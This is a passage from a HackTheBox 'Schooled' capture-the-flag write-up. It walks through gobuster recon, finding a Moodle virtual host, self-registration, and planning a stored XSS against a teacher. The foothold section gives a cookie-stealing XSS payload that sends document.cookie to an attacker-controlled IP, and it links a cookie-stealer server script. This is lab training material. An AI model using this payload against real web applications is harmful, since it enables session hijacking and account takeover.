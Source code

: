 - Directory bruteforcing using `gobuster` dosent result in anything too useful.
- So far info discovered:
    ```bash
    mail: admissions@schooled.htb
    From wappalyzer: Php 7.4.15, Apache2, Bootstrap 4.1.0
    ```
- Nothing seems too useful so far. No admin/login panels were found so far.
- Using `gobuster` for `vhost` bruteforcing we find: `moodle.schooled.htb`
- Add `moodle.schooled.htb` to your `/etc/hosts` list and browse to it as before.

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled5.png)
- Visiting the page lets us signup without a confirmation.
- Abuse this to create an account next. While signing up the mail naming convention is name@student.schooled.htb.
- After unsuccesfull attempts to upload a payload and get rce, what is odd is that `Manuel Phillips` (teacher) was online and the owner of the maths course. A Possible XSS attack could be attempted.
- On Looking for the Moodle versions and [CVE] we find 2 major.
- Looking at the announcement section Manuel Phillips hints at the MoodleNet Profile in the user settings section. This could be used as the potential XSS avenue. 


----------------------------------------------------------------------------------------------------

## FOOTHOLD:

- Setup a `xss-server` with this [simple python script](https://github.com/lnxg33k/misc/blob/master/XSS-cookie-stealer.py). 
- Start the server. 
- Enroll in the maths course .
- Use this xss payload: `<img src=x onerror=this.src='http://10.10.14.51:8888/?'+document.cookie;>`
- Paste it in the user settings section
